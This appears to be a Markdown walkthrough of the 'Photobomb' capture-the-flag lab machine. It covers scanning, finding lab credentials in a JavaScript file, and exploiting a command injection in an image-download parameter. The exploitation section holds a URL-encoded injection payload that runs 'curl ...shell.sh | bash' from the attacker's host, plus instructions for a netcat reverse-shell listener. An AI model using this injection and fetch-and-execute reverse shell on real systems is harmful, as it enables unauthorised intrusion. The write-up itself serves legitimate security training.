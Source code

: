 # Photobomb
## Part 1: Discovery
### Scanning
I have scanned the ip address of the machine using nmap
``` sudo nmap -sVC -T4 -p- machine_ip ```<br/>
According to the nmap result there are 2 services serving on port 22 and port 80. <br/>
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://photobomb.htb/
```
### Investigating the website
When the website is visited, It is not available. We need to configure our local dns server to make possible to visit the website. <br/>
``` sudo vi /etc/hosts```<br/>
After opening the vi editor, insert: ```machine_ip photobomb.htb```. <br/>
Now the website is visitable.<br/>
It is possible to find ```photobomb.js``` when the source code is inspected.<br/>
go to this URL : ```http://photobomb.htb/photobomb.js``` <br/>
we can see that with this url : ```http://pH0t0:b0Mb!@photobomb.htb/printer``` we can log into the site with credentials. <br/>

### Burpsuite
In this website we can download a bunch of images. We can select resolution and the filetype.<br/>
When we analyze the request made when the download button has clicked, it is visible that image name, filetype and resolution are being sent to the backend. <br/>
```photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg&dimensions=3000x2000``` <br/>
We can use this opening to feed our reverse shell into the sever.<br/>


 ## Part 2 : Exploiting
 ### Preping a reverse shell
 I wanted to make this website pull a shell script from my ip. For this purpose; <br/>
 - I have opened a netcast listener on port 443. When the shell script has run, listener will catch and makes us traverse the server directories.<br/>
 - We are going to make the website pull shell script from a python http server which is running on port 8080.<br/>
 - For creating a reverse shell code go to : https://www.revshells.com/ , enter your ip and your listeners port. copy the command
 - open terminal
 - execute :  ```echo 'your_shell_command_here' > shell.sh```. We created a shell script. Whenever this file is run, it will exeucte the shell command.
 - Start a python server ```python3 -m http.server 8080```
 - URL encode ```curl your_ip:python_server_port/shell.sh|bash``` This will be fed to the target system to pull our shell script.
 Our Reverse Shell is ready to be pulled. It is time to feed the shell to the target system.
 
 ### Feeding the shell
 As I mentioned before, the filetype is being sent to the backend. we can make the target computer run a spesific command from here. <br/>
 - First: we paste our url encoded curl command next to the filetype in burpsuite and proceed to download the images: <br/>  ```photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg;curl%20YOURIP%3APYTHONPORT%2Fshell.sh%20%7C%20bash&dimensions=3000x2000``` <br/> Images will not be downloaded and our shell is serving on our listener.
 - You can see at the listener ```connect to [your_ip] from (UNKNOWN) [target_ip] 51488``` We are succesfully penetrated into the target system.
 - search for the flag. It is in a file called user.txt
 
